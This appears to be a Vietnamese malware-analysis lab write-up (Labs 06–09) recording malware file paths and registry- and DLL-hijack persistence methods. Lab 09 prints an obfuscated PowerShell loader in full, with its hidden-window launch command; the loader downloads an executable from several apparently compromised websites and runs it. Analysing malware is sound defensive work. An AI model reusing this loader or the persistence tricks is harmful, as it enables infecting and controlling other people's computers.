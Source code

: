 # Lab 06

- Đường dẫn: C:\Windows\SysWOW64\trnsrun.exe

- Cách thức persistent: mã độc dùng registry key: HKLM\System\CurrentControlSet\Service

# Lab 07

- Đường dẫn: C:\Users\Gee\AppData\Roaming\Microsoft\Windows\OUTLLIB.DLL

- Cách thức persistent: mã độc dùng registry key: HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs

# Lab 08

- Đường dẫn: C:\ProgramData\McAfee\McUtil.dll

- Cách thức persistent: mã độc sẽ dùng key HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\McAfee cho file thực thi và kỹ thuật dll Hijack để thêm dll độc hại vào cùng file thực thi

# Lab 09

- Mã độc sẽ thực thi lệnh: powershell.exe -ExecutionPolicy Bypass -file C:\ProgramData\Microsoft\install.ps1 -WindowStyle Hidden

- File C:\ProgramData\Microsoft\install.ps1 là một lệnh powershell có chức năng:

  ```
  $Eaqekqdr='Rdihyhokr';$Qlidsvmgx='697';$Zekpiwafigy='Bznpimsdzhz';$Dvbarexgme=$env:userprofile+'\'+$Qlidsvmgx+'.exe';$Nyvgeunamuv='Qwlelligoxb';$Mgufpvaskhlz=..('n'+'ew-ob'+'ject') net.webclient;$Snotuzji='https://www.arfajbd.com/wp-admin/kx432434/*https://hefo.com/wp-content/5zuz9ir00606/*http://icloudgraphics.com/wp-content/o1cu7628/*https://bucketlistadventures.com/m5_edit_item/06605ld03197/*http://naavikschool.com/naavikschool.com/ooqvi7a0682/';.``'SPL`I`t'(''*)$Zwecplcmhnzc='Ofrhbvbgo';foreach($Sixenfhuvxlow in $Snotuzji){try{$Mgufpvaskhlz."d`Ow`LOad`FilE"($Sixenfhuvxlow, $Dvbarexgme);$Hjyeuxoehr='Fejljctrajft';If((..('G'+'e'+'t-Item') $Dvbarexgme)."L`E`N`GTH" -ge 26474) {[Diagnostics.Process]::"St`AR`t"($Dvbarexgme);$Pqabbqfxpvzeu='Nlkwrrxcr';break;$Spaskmwq='Evozmuqleiihk'}}catch{}}
  $Imjfroitwtypw='Mhweqwhphs'

  ```

  - Tạo và đặt các biến: Các biến $Eaqekqdr, $Qlidsvmgx, $Zekpiwafigy, $Dvbarexgme, $Nyvgeunamuv, $Mgufpvaskhlz, $Snotuzji, $Zwecplcmhnzc, $Hjyeuxoehr, $Pqabbqfxpvzeu, $Spaskmwq, và $Imjfroitwtypw được tạo và gán giá trị.
 
  - Tải về một tệp: Sử dụng đối tượng Net.WebClient, mã PowerShell này cố gắng tải về một tệp từ các URL đã liệt kê trong biến $Snotuzji và lưu tệp này vào vị trí được xác định bởi biến $Dvbarexgme.

  - Kiểm tra độ dài tệp và thực thi: Nếu tệp được tải về có độ dài (kích thước) lớn hơn hoặc bằng 26474 byte, nó sẽ được thực thi bằng cách sử dụng Diagnostics.Process.
